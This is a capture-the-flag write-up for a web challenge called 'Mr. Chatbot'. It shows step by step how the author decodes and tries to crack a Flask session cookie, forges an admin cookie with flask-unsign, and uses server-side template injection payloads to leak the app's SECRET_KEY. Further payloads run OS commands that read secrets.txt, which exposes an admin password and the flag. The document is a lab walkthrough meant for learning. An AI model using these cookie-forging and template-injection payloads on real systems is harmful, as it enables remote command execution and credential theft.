

# Mr. Chatbot

[](https://www.youtube.com/watch?v=ZBdApaw0r0M?t=879 "Keeping up with the Credentials (CIT CTF)")

## Description

> "What's your prompt?"

> The flag is in secrets.txt

## Solution

We've got a chatbot.



At first I thought it was an LLM challenge but I checked the code and realised it was on a loop.



```js
const userName = "meow";

window.onload = () => {
    addMessage(`Hello ${userName}! I'm your chat bot. 🤖`, "bot");
};

function sendMessage() {
    const input = document.getElementById("userInput");
    const message = input.value.trim();
    if (!message) return;

    addMessage(message, "user");
    input.value = "";

    setTimeout(() => {
        const reply = generateBotResponse(message);
        addMessage(reply, "bot");
    }, 500);
}

function addMessage(text, sender) {
    const chat = document.getElementById("chat");
    const msg = document.createElement("div");
    msg.className = "message " + sender;
    msg.textContent = text;
    chat.appendChild(msg);
    chat.scrollTop = chat.scrollHeight;
}

function getRandomResponse() {
    const responses = [
        "Huh?",
        "What?",
        "I don't understand.",
        "Could you repeat that?",
        "I didn’t catch that.",
        "I'm not sure about that.",
        "Could you explain again?",
        "Sorry, I missed that.",
        "Not sure what you mean.",
        "I’m not following.",
        "Can you say that again?",
    ];
    const randomIndex = Math.floor(Math.random() * responses.length);
    return responses[randomIndex];
}

function generateBotResponse(userMsg) {
    const lower = userMsg.toLowerCase();
    if (lower.includes("flag")) {
        return `Everyone asks what is the flag, but how are you doing. ☹️`;
    } else if (lower.includes("how are you")) {
        return `Thanks ${userName}! I'm doing great 😄`;
    } else {
        return getRandomResponse();
    }
}
```



Nothing interesting but in the HTTP history I notice a value in the response.



```bash
echo "eyJhZG1pbiI6IjAiLCJuYW1lIjoiNyo3In0.aA0-mQ.H89U3HZ33In5PKlkWA2HBDX6q0U" | base64 -d

{"admin":"0","name":"cat"}
```



So let's change the `admin` value.



```bash
echo -n '{"admin":"0","name":"cat"}' | base64
```



Signature problems. I tried to brute force with rockyou with custom python script. I also wanted to see the difference between a token where `"name":"0"` and `"name":"1"`.



```python
import base64
import json


def b64url_decode(data):
    rem = len(data) % 4
    if rem > 0:
        data += '=' * (4 - rem)
    return base64.urlsafe_b64decode(data)


def decode_header(b64_header):
    try:
        raw = b64url_decode(b64_header)
        return raw
    except Exception as e:
        print(f"Error decoding header: {e}")
        return None


def decode_payload(b64_payload):
    try:
        return b64url_decode(b64_payload)
    except Exception as e:
        print(f"Error decoding payload: {e}")
        return None


# === INPUT: paste your two JWTs here ===
jwt_0 = 'eyJhZG1pbiI6IjAiLCJuYW1lIjoiMCJ9.aA4Ujw.Dz9uaVLcvSgEQLZMybBliLsWsmg'
jwt_1 = 'eyJhZG1pbiI6IjAiLCJuYW1lIjoiMSJ9.aA4Uqw.OE_b1aSnIWmWuizycFc6oCexiVM'

# === Split JWTs ===
header_0_b64, payload_0_b64, _ = jwt_0.strip('.').split('.')
header_1_b64, payload_1_b64, _ = jwt_1.strip('.').split('.')

# === Decode headers ===
header_json_0 = decode_header(header_0_b64)
header_json_1 = decode_header(header_1_b64)

# === Decode payloads ===
payload_bytes_0 = decode_payload(payload_0_b64)
payload_bytes_1 = decode_payload(payload_1_b64)

# === Print headers nicely ===
print("\n--- Header 0 (name=0) ---")
print(header_json_0.decode(errors='ignore'))
print("\n--- Header 1 (name=1) ---")
print(header_json_1.decode(errors='ignore'))

# === Compare headers byte-by-byte ===
print("\n--- Header Differences ---")
diffs = [f"{i}: {b0:#04x} -> {b1:#04x}" for i,
         (b0, b1) in enumerate(zip(header_json_0, header_json_1)) if b0 != b1]
print(diffs)

# === Compare payloads byte-by-byte ===
print("\n--- Payload Differences ---")
diffs_payload = [f"{i}: {b0:#04x} -> {b1:#04x}" for i,
                 (b0, b1) in enumerate(zip(payload_bytes_0, payload_bytes_1)) if b0 != b1]
print(diffs_payload)
```





```bash
--- Header 0 (name=0) ---
{"admin":"0","name":"0"}

--- Header 1 (name=1) ---
{"admin":"0","name":"1"}

--- Header Differences ---
['21: 0x30 -> 0x31']

--- Payload Differences ---
['3: 0x8f -> 0xab']
```



Unfortunately the signature is different each time, e.g. if you send a sequence of requests from burp with the same username, the header and payload remain the same, but the signature changes each time.

I'm an idiot! Realised it's a Flask session cookie, not JWT 🤦‍♂️



```bash
flask-unsign --decode --cookie "eyJhZG1pbiI6IjAiLCJuYW1lIjoiMSJ9.aA5UXw.WPD3OrNvo7hs68Ye2kwweW_qECo"
{'admin': '0', 'name': '1'}
```



I tried to crack the secret and got an error due the numbers in the JSON object. We can fix this with the `--no-literal-eval` flag.



```bash
flask-unsign --unsign --cookie "eyJhZG1pbiI6IjAiLCJuYW1lIjoicHJlJSBkZWJ1ZyAlcHJlIn0.aA5Ohw.dXUjqD2Ry1bMwgqHZa7s1fg2se4" --wordlist $rockyou --no-literal-eval
```



Tried a few wordlists but it doesn't crack it. The CTF ended and annoyingly I realised that something I tried earlier was actually in the right direction! I had tried to submit `username=1&admin=1` as parameters (when I still thought it was a JWT), and received an extremely long session cookie that decoded into some weird value. Turns out that weird value was a base64 string (clear now using the `flask-unsign` library) I should have decoded.



```bash
flask-unsign --decode --cookie ".eJyrVkpMyc3MU7JSMlTSUcpLzE2FMkszU4As33DPXM8qX1N_o5LkVJd0owiPjEzfPL_kVPeoXD-3ChMgCWSHVkR4pJtGuYPVlIfkgMSjEgMMUzyA6jOigOoiQ4KA6sIyQHzfTEugOrfs4DCgeJUTiJ0TCtLjDlLjaQw0y8TPsMTHK9O3yj-k2FapFgACmDXz.aA87eA.CNDd8A2cLtNwotJZDvEqMfcJaG8"

{'admin': '1', 'name': '1', 'uid': 'MWImIzM5O2tceDg2XHhiMnNceGZmNFx4ZmNceGUxXHg5ZGtceDgwTlx4ZmZaP1dHXHhhZFx4YTRceGVhXHhhMi9ceDFkSVx4YzBceDFlUlx4ZGRceGI3XHg4N1tLJiMzOTs='}
```



Notice it added a `uid`? It doesn't change the web app functionality though. My friend noticed the web server shows `Werkzeug/3.1.3 Python/3.13.3` and had suggested SSTI, but it failed due to encoding. Perhaps now with an admin session, things will be different? I try a basic payload `{{ 7 * 7}}` from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) as the username. When decoding the `uid` from the cookie, we see `49` at the beginning of the output.



```bash
echo "NDliJiMzOTtceDk2XTJceDkxXHg4Zlx4ZGNceDlhflx4YzNceDkxalx4MTVceDAxMFx4YjNceGQxazpgIVx4YzFceDgzXHhiMlx4ZmNceGRjXHhmMS1ceGI4PXJceGE1MCYjMzk7" | base64 -d

49b&#39;\x96]2\x91\x8f\xdc\x9a~\xc3\x91j\x15\x010\xb3\xd1k:`!\xc1\x83\xb2\xfc\xdc\xf1-\xb8=r\xa50&#39;
```



Trying various other payloads to dump classes etc causes 500 server error! However, sending `{{config.items()}}` returns us more.



```bash
flask-unsign --decode --cookie ".eJyVVVtz6kYM_i88tTOdzpqG6bgzfYjBCzh4zV4kY78FEzD2mmSanMT4TP97ZSCJc-OcPnhYaSWt9OmT-N67XlXbXe-vntP7rbe7rm7omN3u1tvN79uHm-r-l19J_227InU6tsWKu3erMT5k-3x5NUyKsCn_VD4OEbJq2oSDaP-0URW_z_pwNxte3gbbsInMAygUoGEwOcr391M_zZcTYa_00-Y5DvBgDj6fSFR8wTCRDCX6dm5s-BLbVO63VJf30-HmqHMEl07AkbszheWLXbI9xkxNXohiZaOxz6IYnLAIL5IYt0k13Sf9IA8L-CMtRCWarBGNyFOyTYpNX4zDRlTcimLTpAb6YWHzdAQsKSQLT_m-yZ3hCEqEBXvgMbpjCXUoSz7SzrncPQ6l45kSI8rfEEZGgxstWB0oiqXB4S94jVVOuLPr2LGznbpbxlimcc0SnZfJwjZzE9ZXb2IjxXOTBeFjSjXWUPNz2CMPEBzFFXenxhEA-6N-NvSiZX9g39WqsUS9YAPPAHxdH-MS_DqQjMOhLieYG0e-2J_yeTz9dvnSwULMDXsIqJZIdvE45ZL1scn69nG5_bQnBljLH3dkmDvTgGvlu0KCjV6xGDwuK_jR25I4Of2fPlPkSho2CGP9giVkO3yP5YccWy4hBmf79amfzzXNywFrBfLcPH6Wr2nxpZig9NneP7-rFaSa4kxpVj3J8jXxXyGgweHX9RrgyeFNqzh9a-NjpJyz2AqJ-VqVrjboCgXOHKwljOz1a56XTji6fKLvKz_qX9Dh9GXd2r-rKyLuH-ZkwRwv5q6nWMsXHEvEsFPTB0xodjzg7lCCesWAuxws7bOzu0tpid5acwXkz2NfcOAqIM6Yc71XmEvj84B6AIRHe6b96oaGcf8ndiyn3aIpT3_hoDa0d6h3vDvHJ_xuVxP19Mlsdt4Ua8IGjNNyoZ7LDuc-7oIDph2Ov-kfC0dl8_6_AEvrU10eopoTb4jXYm0c78Dvzn46cgzZ3fPOX0w2gxTrizBW2c3IbkmuBa8vooO8uTjIDsmjVXYznjaLSV6kvM4OevJLDJJduU9bn5ElG1m3MQ93cXvnM5IvUhR0Jyryz1PTxkpzOtvQkp_hJPsDSeekwH9OOP7d-_c_gcR69w.aA8_7g.cpubBuFik8_oSF4vhZv954yfZm4"
{'admin': '1', 'name': 'config.items()', 'uid': 'ZGljdF9pdGVtcyhbKCYjMzk7REVCVUcmIzM5OywgRmFsc2UpLCAoJiMzOTtURVNUSU5HJiMzOTssIEZhbHNlKSwgKCYjMzk7UFJPUEFHQVRFX0VYQ0VQVElPTlMmIzM5OywgTm9uZSksICgmIzM5O1NFQ1JFVF9LRVkmIzM5OywgYiYjMzk7ZThjNjdlOGE0OWU1MjM4YWViYmIyY2JhMjU3ZjNmNzczNzNhZjdlYjg2NGMzNmFlNjgzZTU2MjlhZDU0YjQ0MCYjMzk7KSwgKCYjMzk7U0VDUkVUX0tFWV9GQUxMQkFDS1MmIzM5OywgTm9uZSksICgmIzM5O1BFUk1BTkVOVF9TRVNTSU9OX0xJRkVUSU1FJiMzOTssIGRhdGV0aW1lLnRpbWVkZWx0YShkYXlzPTMxKSksICgmIzM5O1VTRV9YX1NFTkRGSUxFJiMzOTssIEZhbHNlKSwgKCYjMzk7VFJVU1RFRF9IT1NUUyYjMzk7LCBOb25lKSwgKCYjMzk7U0VSVkVSX05BTUUmIzM5OywgTm9uZSksICgmIzM5O0FQUExJQ0FUSU9OX1JPT1QmIzM5OywgJiMzOTsvJiMzOTspLCAoJiMzOTtTRVNTSU9OX0NPT0tJRV9OQU1FJiMzOTssICYjMzk7c2Vzc2lvbiYjMzk7KSwgKCYjMzk7U0VTU0lPTl9DT09LSUVfRE9NQUlOJiMzOTssIE5vbmUpLCAoJiMzOTtTRVNTSU9OX0NPT0tJRV9QQVRIJiMzOTssIE5vbmUpLCAoJiMzOTtTRVNTSU9OX0NPT0tJRV9IVFRQT05MWSYjMzk7LCBUcnVlKSwgKCYjMzk7U0VTU0lPTl9DT09LSUVfU0VDVVJFJiMzOTssIEZhbHNlKSwgKCYjMzk7U0VTU0lPTl9DT09LSUVfUEFSVElUSU9ORUQmIzM5OywgRmFsc2UpLCAoJiMzOTtTRVNTSU9OX0NPT0tJRV9TQU1FU0lURSYjMzk7LCBOb25lKSwgKCYjMzk7U0VTU0lPTl9SRUZSRVNIX0VBQ0hfUkVRVUVTVCYjMzk7LCBUcnVlKSwgKCYjMzk7TUFYX0NPTlRFTlRfTEVOR1RIJiMzOTssIE5vbmUpLCAoJiMzOTtNQVhfRk9STV9NRU1PUllfU0laRSYjMzk7LCA1MDAwMDApLCAoJiMzOTtNQVhfRk9STV9QQVJUUyYjMzk7LCAxMDAwKSwgKCYjMzk7U0VORF9GSUxFX01BWF9BR0VfREVGQVVMVCYjMzk7LCBOb25lKSwgKCYjMzk7VFJBUF9CQURfUkVRVUVTVF9FUlJPUlMmIzM5OywgTm9uZSksICgmIzM5O1RSQVBfSFRUUF9FWENFUFRJT05TJiMzOTssIEZhbHNlKSwgKCYjMzk7RVhQTEFJTl9URU1QTEFURV9MT0FESU5HJiMzOTssIEZhbHNlKSwgKCYjMzk7UFJFRkVSUkVEX1VSTF9TQ0hFTUUmIzM5OywgJiMzOTtodHRwJiMzOTspLCAoJiMzOTtURU1QTEFURVNfQVVUT19SRUxPQUQmIzM5OywgTm9uZSksICgmIzM5O01BWF9DT09LSUVfU0laRSYjMzk7LCA0MDkzKSwgKCYjMzk7UFJPVklERV9BVVRPTUFUSUNfT1BUSU9OUyYjMzk7LCBUcnVlKV0pYiYjMzk7XHg5ZVx4MWRceDliXHgxNFx4OWRceDg4XHgxN1x4ODdceGIzXHhjZFxcXHgxNVx4YTVceDkyZFx4ODlceGQxXHg5NVx4YWVceDE0XHg4ZVNceGNmXHhhZTdceGZhXHhlMlx4OTFceGE5Qlx4YjVrJiMzOTs='}
```



We decode it.



```python
dict_items([(&#39;DEBUG&#39;, False), (&#39;TESTING&#39;, False), (&#39;PROPAGATE_EXCEPTIONS&#39;, None), (&#39;SECRET_KEY&#39;, b&#39;e8c67e8a49e5238aebbb2cba257f3f77373af7eb864c36ae683e5629ad54b440&#39;), (&#39;SECRET_KEY_FALLBACKS&#39;, None), (&#39;PERMANENT_SESSION_LIFETIME&#39;, datetime.timedelta(days=31)), (&#39;USE_X_SENDFILE&#39;, False), (&#39;TRUSTED_HOSTS&#39;, None), (&#39;SERVER_NAME&#39;, None), (&#39;APPLICATION_ROOT&#39;, &#39;/&#39;), (&#39;SESSION_COOKIE_NAME&#39;, &#39;session&#39;), (&#39;SESSION_COOKIE_DOMAIN&#39;, None), (&#39;SESSION_COOKIE_PATH&#39;, None), (&#39;SESSION_COOKIE_HTTPONLY&#39;, True), (&#39;SESSION_COOKIE_SECURE&#39;, False), (&#39;SESSION_COOKIE_PARTITIONED&#39;, False), (&#39;SESSION_COOKIE_SAMESITE&#39;, None), (&#39;SESSION_REFRESH_EACH_REQUEST&#39;, True), (&#39;MAX_CONTENT_LENGTH&#39;, None), (&#39;MAX_FORM_MEMORY_SIZE&#39;, 500000), (&#39;MAX_FORM_PARTS&#39;, 1000), (&#39;SEND_FILE_MAX_AGE_DEFAULT&#39;, None), (&#39;TRAP_BAD_REQUEST_ERRORS&#39;, None), (&#39;TRAP_HTTP_EXCEPTIONS&#39;, False), (&#39;EXPLAIN_TEMPLATE_LOADING&#39;, False), (&#39;PREFERRED_URL_SCHEME&#39;, &#39;http&#39;), (&#39;TEMPLATES_AUTO_RELOAD&#39;, None), (&#39;MAX_COOKIE_SIZE&#39;, 4093), (&#39;PROVIDE_AUTOMATIC_OPTIONS&#39;, True)])b&#39;\x9e\x1d\x9b\x14\x9d\x88\x17\x87\xb3\xcd\\\x15\xa5\x92d\x89\xd1\x95\xae\x14\x8eS\xcf\xae7\xfa\xe2\x91\xa9B\xb5k&#39;
```



We have a session key `e8c67e8a49e5238aebbb2cba257f3f77373af7eb864c36ae683e5629ad54b440` so we can now forge our own tokens!



```bash
flask-unsign --sign --cookie '{"admin": "1", "name": "{{7*'7'}}"}' --secret 'e8c67e8a49e5238aebbb2cba257f3f77373af7eb864c36ae683e5629ad54b440'
```



Trying more commands, we see we have command execution.



```bash
flask-unsign --decode --cookie ".eJwljE1Pg0AURf9Kw6Y0MU0JJKYmbgwCggOWVmDYEGBGGBg-BJqWMf53H7g7975z34-Ukoa10pOkSA9SmzYUcDNS_rVPEtayKUkACt5lKR9Xzq6MT6z9D6zpuwEceduN292-73rayltGgAeaEnm3ga9XRuApCXn9cUHCsYhKZqXGkV8655c2DU9HJFAHrfoe-iUxX_s3k8yZGtxycRBoLuGST7FpHPC5djDDFRKnx8gqWWzdmsxaufSCuxY3tg1ce8Zdw5WbUxOrkLkbHoH9BvGlJ4OvKoXNkPAuE_SfM4qMnOq8Wtx42YrgOwY31nPYFxpW1g4co152rj4-S79_mxRq5A.aA9BiA.ZegAC0Us9fmJIDUhlisi13dwh"

{'admin': '1', 'name': " self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() ", 'uid': 'dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkKYiYjMzQ7XHhiZHwmbHQ7XHhhOVx4ZmJJXHhkOFx4YjNceGY3XHhlNW9ceGRmMlx4YjdrR31gJiMzOTtceGUyMXFceDljXHhlZFx4YzVqZlx4ZDc3XHg4Y1x4YzVceDFkJiMzNDs='}
```





```bash
echo "dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkKYiYjMzQ7XHhiZHwmbHQ7XHhhOVx4ZmJJXHhkOFx4YjNceGY3XHhlNW9ceGRmMlx4YjdrR31gJiMzOTtceGUyMXFceDljXHhlZFx4YzVqZlx4ZDc3XHg4Y1x4YzVceDFkJiMzNDs=" | base64 -d

uid=33(www-data) gid=33(www-data) groups=33(www-data)
b&#34;\xbd|&lt;\xa9\xfbI\xd8\xb3\xf7\xe5o\xdf2\xb7kG}`&#39;\xe21q\x9c\xed\xc5jf\xd77\x8c\xc5\x1d&#34;
```



Now let's just swap the `id` command with `cat secrets.txt`.



```bash
flask-unsign --decode --cookie ".eJwljV1PgzAUhv_K0puxxBBxzCXeSmQsKWQFKeWGdFChfBQCJSLG_-5B757nPW_e84140UmFXpCFHpDinQDcTaL9MLNMKqmzDKBs-ztvpz--z7LVUv2L7IZ-hI6x76f9wRz6QShjn3MNE_ko9GTqRcNhFLwwDjt4McsCPjBKNKf2c0DZGr7jtaD9KVEDfy0HJ4zJGUdV5T-lMqVE-i5b_ehmp8qSV4nXINK5cEmVXEqbxYvN6hicPYKfsKO95FLVuNuy2xG4C7YOvQpmLXbgbLn3CXnjg6cuuNO2BDoBTYGrpnjbegR6vkyOet42cOx9wf4ShKzGa3NGP7-uu2n_.aA9CBA.E6Ko9w0HFeVGac01dYH3meSk2Rs"

{'admin': '1', 'name': " self.__init__.__globals__.__builtins__.__import__('os').popen('cat secrets.txt').read() ", 'uid': 'YWRtaW46OWYzSUMzdWo5XnpaCgpDSVR7MThhN2ZiZWRiNGYzNTQ4Zn1iJiMzOTtceGRhXHg4YVx4YjVceGY0XHg5MDtIXHhjMmVceGQ3XHhmOVx4YWJeY1x4ODVceGIwXHhkN1x4ZGVceDllRVx4OWZceDhkdFx4ODRceGNiX3tuXHhmMVIyXHgxOSYjMzk7'}
```





```bash
echo "YWRtaW46OWYzSUMzdWo5XnpaCgpDSVR7MThhN2ZiZWRiNGYzNTQ4Zn1iJiMzOTtceGRhXHg4YVx4YjVceGY0XHg5MDtIXHhjMmVceGQ3XHhmOVx4YWJeY1x4ODVceGIwXHhkN1x4ZGVceDllRVx4OWZceDhkdFx4ODRceGNiX3tuXHhmMVIyXHgxOSYjMzk7" | base64 -d
admin:9f3IC3uj9^zZ

CIT{18a7fbedb4f3548f}b&#39;\xda\x8a\xb5\xf4\x90;H\xc2e\xd7\xf9\xab^c\x85\xb0\xd7\xde\x9eE\x9f\x8dt\x84\xcb_{n\xf1R2\x19&#39;
```



Flag: `CIT{18a7fbedb4f3548f}`
